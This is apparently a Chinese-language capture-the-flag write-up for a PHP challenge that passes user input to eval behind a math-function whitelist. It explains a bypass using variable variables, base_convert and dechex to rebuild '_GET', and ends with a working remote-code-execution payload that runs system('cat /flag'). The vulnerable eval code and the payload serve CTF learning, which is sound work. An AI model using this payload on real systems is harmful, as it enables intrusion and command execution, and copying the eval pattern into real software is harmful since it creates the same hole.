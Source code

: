 ![[Pasted image 20221202195606.png]]

---
首页长这样
```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

---
emmm，只给数学函数感觉限死了，但`php`绝对不会让我们失望QwQ

总体上就是利用可变变量和可变函数

---
首先好像要拿一个变量承载字符串，于是选择最短的`pi`

为了保持在80个字符之内，决定给`pi`赋一个`"_GET"`，也就是
```php
$pi="_GET";
```
然后通过`pi`来绕过过滤（这个大括号访问数组和字符串的特性好像在`php7.4`之后被删了QAQ）
```php
$$pi{abs}($$pi{cos})
```
这个会变成
```php
$_GET{abs}($_GET{cos})
```
我们传入
```php
abs=system&cos=<command>
```
即可

问题转化为通过数学函数构造出`'_GET'`

虽然但是，下划线和大写字母好难弄QAQ

![[Pasted image 20221202214151.png]]

这个东西文档的解释完全没看懂哇wuwuwu

意思好像就是说传入参数是一群字符的`ascii`码的十六进制形式连在一块，然后返回值是还原这些十六进制形式为原字符的结果

也就是说只要构造出了`"hex2bin"`就可以通过`hex2bin`和`dechex`构造出`"_GET"`了

`"hex2bin"`全是字母数字，可以直接`base_convert`QwQ

![[Pasted image 20221202215159.png]]

![[Pasted image 20221202215606.png]]

所以就可以构造出最终`payload`啦
```php
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{cos})&abs=system&cos=cat /flag
```
![[Pasted image 20221202220340.png]]

#Web #PHP #RCE #函数 #数学 #可变变量 #绕过